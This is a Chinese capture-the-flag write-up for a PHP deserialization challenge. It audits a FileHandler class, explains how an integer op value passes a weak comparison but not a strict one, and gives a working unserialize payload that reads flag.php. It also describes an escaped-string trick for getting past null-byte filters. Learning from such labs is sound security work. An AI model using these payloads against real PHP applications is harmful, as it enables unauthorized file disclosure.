


# [DASCTF] FileHandler 反序列化

打开题目直接就是源码，`highlight_file` 把整个文件摊出来了。先审计。



```php
<?php
include("flag.php");
highlight_file(__FILE__);

class FileHandler {
    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            ...
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }
}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {
    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }
}
```

## 判断

**第一件事：`include("flag.php")` 说明 flag 和入口同目录，而且我们要的是它的源码，不是执行结果。**

`file_get_contents` 不走 PHP 解析器，读出来就是磁盘上的原文。这一点是这题的关键 —— 不是去读"执行后输出"，是直接把文件读出来。

**第二件事：只有 `read()` 能读文件，怎么进去？**

入口只有 `unserialize`，唯一的触发点是 `__destruct`：

```text
__destruct() → process() → read()
```

但中间有两道类型检查：

| 位置 | 写法 | 作用 |
|---|---|---|
| `__destruct` | `$this->op === "2"` **强比较** | 字符串 `"2"` 会被改成 `"1"`，走 write |
| `process` | `$this->op == "2"` **弱比较** | 整数 `2` 也成立，走 read |

所以 `op` 必须序列化成**整数**：

```text
s:2:"op";i:2;
```

**第三件事：属性是 `protected`，怎么绕 `is_valid`？**

`protected` 属性序列化后是 `\0*\0op`（两个空字节夹一个星号），而 `is_valid` 卡的是 `ord() >= 32`，空字节 `ord = 0` 直接被拒。

但这题**根本不用碰空字节** —— `unserialize` 不对属性做检验，所以构建序列化串的时候直接用 public 属性名就行，`protected $op` 一样写得进去：

```text
s:2:"op";i:2;        ← 属性是 protected，但这里按 public 写
```

## 最终 payload

```text
/?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:0:"";}
```

返回：

```text
[Result]: <br><?php $flag='CTF2{a8da662d-ba4e-44da-9655-ffd89b301ecb}';
```



## 页面为什么看着什么都没有

两个原因叠在一起：

1. **浏览器把 `<?` 当成 bogus comment（无效注释）**，一路吞到下一个 `>`，所以这段字不在渲染结果里 —— `Ctrl+U` 看源代码就有；
2. **`__destruct` 是在脚本结束时才触发的**，输出天然追加在页面最末尾、`highlight_file` 的源码后面。

## 收获

- **同一个属性在不同位置可以是不同类型检查**：`=== "2"` 拦字符串，`== "2"` 收整数。找"哪个类型能同时过两道"比硬刚一个点快。
- **`unserialize` 不做可见性检查**：`protected` / `private` 的空字节前缀不是必须的，public 名字一样能写进去。序列化里的可见性前缀只影响"生成时怎么写"，不限制"解析时怎么读"。
- **`file_get_contents` 读的是源码**：想拿 PHP 文件的原文用它，不是 include。
- **`__destruct` 是最好用的触发器**：对象没人接住也会在脚本结束时析构，`unserialize` 完什么都不用做。

!!! note "进阶：真要写 protected 形式的话"

    `is_valid` 拦空字节，但 PHP 反序列化支持**大写 `S`** 的转义字符串，`\00` 在原文里是 3 个可打印字符（`\`、`0`、`0`，全在 32~125 之间），unserialize 时才还原成空字节：

    ```text
    S:5:"\00*\00op";i:2;
    ```

    这一招专门用于绕过"禁止空字节"的过滤器，记进反序列化专题。
